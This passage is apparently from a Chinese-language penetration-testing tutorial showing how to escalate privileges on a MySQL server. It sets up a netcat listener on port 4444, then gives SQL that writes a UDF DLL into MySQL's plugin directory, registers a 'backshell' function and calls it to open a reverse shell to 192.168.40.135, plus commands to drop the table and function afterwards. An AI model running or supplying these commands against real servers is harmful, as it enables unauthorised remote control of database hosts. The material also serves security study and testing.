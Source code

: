 ## **三、一个提权实例**

[![图1进行监听](http://s2.51cto.com/wyfs02/M02/8E/0A/wKioL1iz-LfiXi2dAABweJzi7qs564.jpg-wh_651x-s_656932454.jpg)](http://s2.51cto.com/wyfs02/M02/8E/0A/wKioL1iz-LfiXi2dAABweJzi7qs564.jpg-wh_651x-s_656932454.jpg)

### **1.在反弹监听服务器上进行端口监听**

通过cmd命令提示符，执行nc监听命令：nc –vv –l –p 4444，表示在本地监听4444端口。如果是在公网上，这反弹监听服务器必须有独立IP，如果是内部网络，则可以直接使用内网IP，如图1所示。

图1进行监听

### **2.修改mysql.txt文件中反弹地址**

在mysql.txt文件中将最后一行代码修改为前面设置的监听IP地址和端口，如图2所示，例如代码：

```sql
select backshell("192.168.40.135",4444);//反弹监听服务器IP192.168.40.135，端口4444
```

可修改查询代码中反弹shell地址和端口

这个也可以再次单独查询：select backshell("192.168.40.135",4444);

**3.执行查询**

可以通过mysql命令行下执行，也可以通过phpmyadmin查询窗口以及一些mysql客户端查询进行，如图3所示执行查询。

```sql
use mysql; 
set @a=concat('',0x代码); 
create table Ghost(data LONGBLOB); 
insert into Ghost values("");update Ghost set data = @a; 
代码为select hex(load_file('c:/udf.dll'))中的内容 
select data from Ghost into dumpfile 'c:/phpStudy/MySQL/lib/plugin/udf.dll'; //导出ufd.dll 
CREATE FUNCTION backshell RETURNS STRING SONAME 'udf.dll';//创建函数 
select backshell("192.168.40.135",4444); 
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywr1fgo6xj20dw096jsv.jpg)

说明：

(1)如果已经存在ghost表和backshell函数，可以执行以下命令进行删除：

```sql
1. drop table ghost;  
2. drop FUNCTION backshell; 
```

(2)如果已经存在udf.dll，则可以跳过导出命令，执行：

```sql
CREATE FUNCTION backshell RETURNS STRING SONAME 'udf.dll'; 
```
